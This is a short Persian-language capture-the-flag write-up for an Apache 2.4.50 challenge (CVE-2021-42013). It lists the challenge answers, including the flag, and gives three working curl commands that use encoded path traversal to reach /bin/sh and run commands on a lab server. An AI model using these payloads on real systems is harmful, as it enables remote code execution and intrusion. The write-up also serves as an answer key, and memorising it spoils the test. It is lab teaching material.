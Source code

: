  سرویس های آسیب پذیر - شماره دو


یکی از روش‌های دسترسی به سیستم های تحت وب، بررسی آسیب‌پذیری‌های موجود است. در این چالش، سرور دارای آسیب‌پذیری است که می‌بایست با اکسپلویت نمودن آن، به سوالات زیر پاسخ دهید:
1-نام سرویس آسیب پذیر چیست؟ 

**apache**

2- نسخه سرویس آسیب پذیر چیست؟ (فقط نسخه وارد شود مانند 5.7.1) 

**2.4.50**

3- شناسه آسیب پذیری سرویس چیست؟ 

**CVE-2021-42013**

4- محتوای فایل flag چیست؟ 
**vulnerableapache**

curl -s --path-as-is -d "echo Content-Type: text/plain; echo; id" "http://192.168.60.143:8080/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh";

curl -s --path-as-is -d "echo Content-Type: text/plain; echo; find / -name  *flag*" "http://192.168.60.143:8080/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh";  

curl -s --path-as-is -d "echo Content-Type: text/plain; echo; cat /usr/local/apache2/.flag.txt" "http://192.168.60.143:8080/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh";  

